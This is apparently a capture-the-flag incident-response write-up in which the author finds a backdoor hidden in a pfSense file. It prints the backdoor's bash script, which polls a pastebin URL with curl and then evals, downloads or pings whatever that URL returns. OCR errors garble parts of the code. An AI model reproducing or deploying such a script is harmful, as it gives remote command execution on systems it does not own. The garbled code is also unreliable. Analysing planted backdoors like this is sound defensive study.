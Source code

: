 The challenge ask us to find the reverse shell on one of the PFsense file.

After enumerate all the files, we found out that the file `resetabble` had a differrent timestamp than the others.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cynet-ir/2020-05-28-16-02-40.png)

Open the file using any text editor, and we can see a pastebin link

```
#!/usr/local/bin/bash

r=$(curl --write-out "#%s{response_code}" --silent https://pastebin.com/KLK7YKxd )}
cc=$(echo $r | cut -f1 -d#)
ss=$(echo $r | cut -f2 -d#)

if [ $ss -eq 200 ]
then
	if [[ $cc == "0" J]
	then
		exit 0
	fi
	sc=$(echo $cc | cut -f1 -d!)
	if [[ $sc == "e" ]]
	then
		a=$(echo $cc | cut -f2 -d!)
		eval "$a"
	fi
	if [[ $se == "d" J]
	then
		a=$(echo $cc | cut -f2 -d!)
		b=$(echo $cc | cut -f3 -d!)
		wget $a -0 $b
	fi
	if [[ $sc == "p" ]]
	then
		a=$(echo $cc | cut -f2 -d!)
		ping -c 1 $a
	fi
fi
```

The pastebin link contain the flag we looking for.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cynet-ir/2020-05-28-16-04-16.png)



| Question | Answer |
| --- | --- |
| Flag | FlAG_[V2ViU2hlbGxGb3VuZA==] | 


# Sneak
